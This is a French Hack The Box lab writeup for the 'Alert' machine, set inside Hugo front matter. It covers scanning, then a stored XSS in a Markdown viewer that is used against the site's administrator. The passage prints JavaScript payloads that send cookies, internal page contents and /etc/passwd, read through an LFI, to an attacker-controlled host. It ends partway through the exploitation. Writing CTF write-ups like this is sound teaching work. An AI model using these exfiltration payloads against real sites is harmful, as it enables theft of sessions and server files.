




---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Alert — HTB Easy Writeup & Walkthrough"
linkTitle: "Alert"
slug: "alert"
date: 2026-03-21T09:36:20+01:00
#lastmod: 2026-03-21T09:36:20+01:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Alert (HTB Easy) : XSS stockée, exfiltration JS, LFI, accès SSH et élévation jusqu’à root."
description: "Writeup de Alert (HTB Easy) : exploitation d’une XSS stockée, exfiltration de données, LFI, récupération d’identifiants et escalade de privilèges jusqu’à root."
tags: ["HTB Easy","web","xss","lfi","ssh","apache"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Machine Alert HTB Easy exploitée via XSS stockée, LFI et escalade de privilèges jusqu’à root"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Alert"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Alert> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

La machine **Alert** de Hack The Box, classée **HTB Easy**, propose un scénario web basé sur l’exploitation d’un **Markdown Viewer vulnérable**, combiné à une mauvaise gestion des accès côté serveur.

Tu y découvres comment transformer une simple fonctionnalité d’upload en un point d’entrée exploitable, en injectant du JavaScript pour obtenir un accès indirect aux ressources de l’application.

Ce writeup te guide pas à pas pour exploiter une **XSS stockée**, exfiltrer des données, identifier une **LFI**, puis utiliser les informations récupérées pour obtenir un accès SSH.

Tu poursuis ensuite avec une escalade de privilèges basée sur une faiblesse dans la gestion des permissions, jusqu’à obtenir un accès **root** sur la machine.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) permet d’identifier les ports ouverts suivants :

> Note : les IP et les timestamps peuvent varier selon les resets HTB ; l’important ici est la surface exposée.

```bash
# Nmap 7.98 scan initiated Sat Mar 21 09:53:00 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt alert.htb
Nmap scan report for alert.htb (10.129.231.188)
Host is up (0.015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
12227/tcp filtered unknown

# Nmap done at Sat Mar 21 09:53:07 2026 -- 1 IP address (1 host up) scanned in 6.95 seconds
```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :
- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats de cette énumération sont enregistrés dans le fichier `scans_nmap/enum_ftp_smb_scan.txt`

```bash
# mon-nmap — ENUM FTP / SMB
# Target : alert.htb
# Date   : 2026-03-21T09:53:07+01:00

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités, ce qui te permet de repérer rapidement les services à examiner en priorité.

Voici le résultat (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour alert.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "alert.htb"

# Nmap 7.98 scan initiated Sat Mar 21 09:53:07 2026 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt alert.htb
Nmap scan report for alert.htb (10.129.231.188)
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   58.01 ms 10.10.16.1
2   7.99 ms  alert.htb (10.129.231.188)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 21 09:53:22 2026 -- 1 IP address (1 host up) scanned in 14.36 seconds
```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.98 scan initiated Sat Mar 21 09:53:22 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt alert.htb
Nmap scan report for alert.htb (10.129.231.188)
Host is up (0.014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
| http-headers: 
|   Date: Sat, 21 Mar 2026 08:53:30 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; php: 3
|     /css/
|       css: 1
|   Longest directory structure:
|     Depth: 1
|     Dir: /css/
|   Total files found (by extension):
|_    Other: 1; css: 1; php: 3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 21 09:53:37 2026 -- 1 IP address (1 host up) scanned in 14.73 seconds
```


### Scan UDP rapide

Un scan UDP rapide est également lancé afin d’identifier d’éventuels services exposés (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Sat Mar 21 09:53:37 2026 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt alert.htb
Nmap scan report for alert.htb (10.129.231.188)
Host is up (0.017s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown

# Nmap done at Sat Mar 21 09:53:45 2026 -- 1 IP address (1 host up) scanned in 8.81 seconds
```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb alert.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier RESULTS_SUMMARY.txt te permet alors d’identifier rapidement les chemins réellement intéressants, sans avoir à parcourir l’ensemble des logs générés par les outils.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.1

Cible        : alert.htb
Périmètre    : /
Date début   : 2026-03-21 09:57:28

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://alert.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/alert.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://alert.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/alert.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/alert.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://alert.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/alert.htb/ffuf_files.json 2>&1 | tee scans_recoweb/alert.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://alert.htb/. (CODE:302|SIZE:660)
http://alert.htb/contact.php (CODE:200|SIZE:24)
http://alert.htb/css/
http://alert.htb/css/ (CODE:301|SIZE:304)
http://alert.htb/.htaccess.bak (CODE:403|SIZE:274)
http://alert.htb/.htaccess (CODE:403|SIZE:274)
http://alert.htb/.htc (CODE:403|SIZE:274)
http://alert.htb/.ht (CODE:403|SIZE:274)
http://alert.htb/.htgroup (CODE:403|SIZE:274)
http://alert.htb/.htm (CODE:403|SIZE:274)
http://alert.htb/.html (CODE:403|SIZE:274)
http://alert.htb/.htpasswd (CODE:403|SIZE:274)
http://alert.htb/.htpasswds (CODE:403|SIZE:274)
http://alert.htb/.htuser (CODE:403|SIZE:274)
http://alert.htb/index.php (CODE:302|SIZE:660)
http://alert.htb/messages/
http://alert.htb/messages/ (CODE:301|SIZE:309)
http://alert.htb/messages.php (CODE:200|SIZE:1)
http://alert.htb/.php (CODE:403|SIZE:274)
http://alert.htb/server-status (CODE:403|SIZE:274)
http://alert.htb/server-status/ (CODE:403|SIZE:274)
http://alert.htb/uploads/
http://alert.htb/uploads/ (CODE:301|SIZE:308)
http://alert.htb/wp-forum.phps (CODE:403|SIZE:274)

=== Détails par outil ===

[DIRB]
http://alert.htb/css/
http://alert.htb/index.php (CODE:302|SIZE:660)
http://alert.htb/messages/
http://alert.htb/server-status (CODE:403|SIZE:274)
http://alert.htb/uploads/

[FFUF — DIRECTORIES]
http://alert.htb/css/ (CODE:301|SIZE:304)
http://alert.htb/messages/ (CODE:301|SIZE:309)
http://alert.htb/server-status/ (CODE:403|SIZE:274)
http://alert.htb/uploads/ (CODE:301|SIZE:308)

[FFUF — FILES]
http://alert.htb/. (CODE:302|SIZE:660)
http://alert.htb/contact.php (CODE:200|SIZE:24)
http://alert.htb/.htaccess.bak (CODE:403|SIZE:274)
http://alert.htb/.htaccess (CODE:403|SIZE:274)
http://alert.htb/.htc (CODE:403|SIZE:274)
http://alert.htb/.ht (CODE:403|SIZE:274)
http://alert.htb/.htgroup (CODE:403|SIZE:274)
http://alert.htb/.htm (CODE:403|SIZE:274)
http://alert.htb/.html (CODE:403|SIZE:274)
http://alert.htb/.htpasswd (CODE:403|SIZE:274)
http://alert.htb/.htpasswds (CODE:403|SIZE:274)
http://alert.htb/.htuser (CODE:403|SIZE:274)
http://alert.htb/index.php (CODE:302|SIZE:660)
http://alert.htb/messages.php (CODE:200|SIZE:1)
http://alert.htb/.php (CODE:403|SIZE:274)
http://alert.htb/wp-forum.phps (CODE:403|SIZE:274)
```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
mon-subdomains alert.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Même si aucun vhost n’est détecté, ce fichier permet de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
=== mon-subdomains alert.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-03-21 09:58:24
Domaine      : alert.htb
IP           : 10.129.231.188
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 1
  - statistics.alert.htb

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=301 size=311 words=28 (Host=1ibj84efoa.alert.htb)
  Baseline#2: code=301 size=311 words=28 (Host=ehbl83zc3p.alert.htb)
  Baseline#3: code=301 size=311 words=28 (Host=2xr4e6jeq7.alert.htb)
  After-redirect#1: code=200 size=966 words=66
  After-redirect#2: code=200 size=966 words=66
  After-redirect#3: code=200 size=966 words=66
  VHOST (1)
    - statistics.alert.htb


=== mon-subdomains alert.htb END ===
```

## Prise pied

### Points d’entrée identifiés

À ce stade, l’énumération met en évidence un service web exposé sur le port 80, avec une application nommée **Markdown Viewer**.

Plusieurs chemins attirent également l’attention, notamment `messages.php`, `contact.php` et le répertoire `/uploads/`.

Tu concentres donc ton analyse sur cette application web, qui représente le point d’entrée le plus prometteur.

En accédant à `http://alert.htb`, tu arrives directement sur la page **“Markdown Viewer”**, qui constitue l’interface principale.




Sur cette page, un menu te permet de naviguer entre plusieurs sections :  
**Markdown Viewer**, **Contact us**, **About us** et **Donate**.

La section **Markdown Viewer** attire particulièrement l’attention, car la présence d’un bouton **“Browse”** suggère un mécanisme d’upload de fichiers Markdown.

### Test du rendu Markdown

Avant de chercher une vulnérabilité, tu commences par comprendre comment l’application traite les fichiers Markdown.

Pour cela, tu peux créer un fichier simple afin d’observer le comportement du rendu.

Par exemple, crée un fichier `test.md` avec le contenu suivant :

```markdown
# Test Markdown

Ceci est un test.Ensuite :
```

Ensuite :

1. Clique sur **“Browse”**
2. Sélectionne ton fichier `test.md`
3. Clique sur **“View Markdown”**

Le contenu est alors affiché dans l’interface.



> **Note :** un bouton **“Share Markdown”** est également présent sur la page et pourrait permettre de générer un lien de partage du contenu. Cette fonctionnalité sera analysée plus loin.

Tu confirmes ainsi que :

- les fichiers `.md` sont acceptés
- le contenu est correctement interprété et affiché

### Test de sécurité du rendu Markdown

Maintenant que tu contrôles le contenu affiché, l’étape suivante consiste à vérifier si ce contenu est correctement filtré.

Tu modifies ton fichier `test.md` en y ajoutant un script :

```markdown
# Test XSS

<script>alert(1)</script>
```

Tu répètes ensuite les mêmes étapes d’upload.


#### Observation du comportement

Lors de l’affichage du message, une alerte JavaScript apparaît.



Le code JavaScript est donc exécuté directement dans le navigateur.

#### Analyse

Ce comportement montre que :

- le contenu Markdown n’est pas filtré correctement
- les balises `<script>` sont interprétées
- il est possible d’exécuter du JavaScript arbitraire

Tu es donc face à une faille XSS (Cross-Site Scripting).

Dans ce cas précis, il s’agit d’une XSS stockée, car le contenu est enregistré et rejoué lors de l’affichage.

#### Impact

À ce stade, tu peux :

- exécuter du JavaScript dans ton navigateur
- modifier le contenu de la page
- interagir avec l’application côté client

Mais surtout, si un autre utilisateur consulte ce contenu, le script s’exécute dans son navigateur avec ses privilèges.

Si tu parviens à cibler un administrateur, tu peux alors exécuter du code dans son contexte et accéder à des ressources normalement inaccessibles.

C’est ce qui permet de passer à une exploitation concrète.

### Test d’exfiltration via XSS

La XSS est maintenant confirmée. L’objectif n’est plus simplement d’afficher une alerte, mais d’exploiter cette vulnérabilité pour récupérer des informations.

Une première étape consiste à vérifier si le navigateur peut envoyer des données vers ta machine.

Pour cela, tu modifies ton fichier `test.md` avec le contenu suivant :

```markdown
# Alert Test

Ceci est un test Markdown.

<script>
new Image().src="http://10.10.x.x:8000/?c="+document.cookie;
</script>
```

Ce code force le navigateur à contacter ton serveur en ajoutant les cookies dans l’URL.

Même si l’image n’existe pas, la requête HTTP est bien envoyée, ce qui permet de récupérer ces données côté attaquant.

#### Mise en place du serveur de réception

Sur ta machine Kali, tu lances un serveur HTTP simple :

```bash
python3 -m http.server 8000
```

Puis tu charges à nouveau ton fichier Markdown.

**Observation**

Dans le terminal, tu observes une requête entrante :

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.x.x - - [27/Mar/2026 10:44:40] "GET /?c= HTTP/1.1" 200 -
```

La requête est bien reçue, ce qui confirme que :

- le script est exécuté dans le navigateur
- une communication avec ta machine est possible

Dans ce cas précis, le paramètre `c` est vide, car aucun cookie exploitable n’est présent.

On remarque également que l’adresse IP affichée (`10.10.x.x`) correspond à ta propre machine (interface `tun0`).

**Conclusion**

Même si aucun cookie n’est récupéré ici, ce test valide un point essentiel : tu peux exfiltrer des données depuis le navigateur.

Ce mécanisme servira ensuite à récupérer du contenu plus intéressant, notamment depuis l’application elle-même.


### Passage au contexte administrateur

### Passage au contexte administrateur

L’application propose une fonctionnalité **“Contact us”**, qui permet d’envoyer un lien à un administrateur.

Sur la page **About Us**, il est précisé que l’administrateur est chargé de consulter les messages reçus :



Tu peux donc utiliser ce mécanisme pour faire exécuter ton payload XSS dans un contexte plus intéressant.

L’objectif est alors de :

- créer un message contenant un payload XSS
- récupérer le lien via la fonction “Share”
- transmettre ce lien à l’administrateur

Lorsque l’administrateur ouvre le message, le JavaScript s’exécute dans son navigateur, avec ses privilèges.

------

### Exfiltration de contenu avec JavaScript

Parmi les pages identifiées lors de l’énumération, `messages.php` attire particulièrement l’attention.

Cette page est liée au système de messagerie de l’application, et il est probable qu’elle soit utilisée par l’administrateur pour consulter les messages reçus via **“Contact us”**.

Elle constitue donc une cible pertinente pour tester une première exfiltration de contenu.

Le principe est le suivant :

- envoyer une requête vers une page interne accessible par l’admin
- récupérer son contenu
- renvoyer ces données vers ta machine

Un premier test consiste à cibler la page suivante 

```txt
http://alert.htb/messages.php
```

Payload utilisé :

```html
<script>
fetch('http://alert.htb/messages.php')
  .then(r => r.text())
  .then(data => {
    new Image().src = 'http://10.10.x.x:8000/?d=' + btoa(data);
  });
</script>
```

**Explication**

- `fetch()` envoie une requête HTTP vers la ressource cible
- la réponse est récupérée sous forme de texte avec `r.text()`
- `btoa()` encode les données en base64 pour faciliter leur transmission
- `new Image().src` permet d’envoyer ces données vers ton serveur

Ce code est exécuté dans le navigateur de l’administrateur.
 Il récupère le contenu de `messages.php`, puis l’exfiltre vers ta machine.


### Analyse du contenu récupéré

Lorsque l’administrateur ouvre ton lien, une requête contenant des données encodées en base64 apparaît dans ton listener :

```bash
10.129.x.x - - [date] "GET /?d=PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg== HTTP/1.1" 200 -
```

Tu peux décoder ce contenu avec :

```bash
echo "..." | base64 -d
```

Tu obtiens alors :

```html
<h1>Messages</h1>
<ul>
  <li>
    <a href='messages.php?file=2024-03-10_15-48-34.txt'>
      2024-03-10_15-48-34.txt
    </a>
  </li>
</ul>
```

**Interprétation**

Ce résultat met en évidence un comportement important :

- la page liste des fichiers
- un paramètre `file` est utilisé pour afficher leur contenu
- ce paramètre semble directement contrôlé par l’utilisateur

Cela révèle un point d’entrée exploitable :

```bash
messages.php?file=...
```

**Conclusion**

Tu es face à un vecteur potentiel de **Local File Inclusion (LFI)**.

Si ce paramètre n’est pas correctement sécurisé, il pourrait permettre de lire des fichiers arbitraires sur le serveur.

On va donc tester cette hypothèse dans la suite de l’exploitation.


### Découverte d’un point d’entrée LFI

L’analyse du contenu exfiltré met en évidence l’utilisation du paramètre suivant :

```txt
messages.php?file=...
```

Ce paramètre est utilisé pour charger le contenu des messages.

Dans ce type de mécanisme, il est fréquent que la valeur soit utilisée directement côté serveur pour lire un fichier.

On peut donc tester une tentative d’inclusion de fichier en utilisant un chemin relatif.

Un test classique consiste à cibler le fichier `/etc/passwd` :

```
../../../../etc/passwd
```

Payload final :

```html
<script>
fetch('http://alert.htb/messages.php?file=../../../../etc/passwd')
  .then(r => r.text())
  .then(data => {
    new Image().src = 'http://10.10.x.x:8000/?d=' + btoa(data);
  });
</script>
```

**Résultat**

Après exécution du payload par l’administrateur, une nouvelle requête est reçue sur ton serveur.

Une fois décodées, les données retournées contiennent :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

**Validation**

Ce résultat confirme que :

- le paramètre `file` permet de lire des fichiers arbitraires
- aucun filtrage efficace n’est appliqué
- l’application est vulnérable à une **Local File Inclusion (LFI)**

**Impact**

Tu peux désormais accéder à des fichiers sensibles du système ou de l’application.

Cela ouvre la voie à la récupération d’identifiants et à une compromission complète de la machine.

### Découverte d’un point d’entrée exploitable

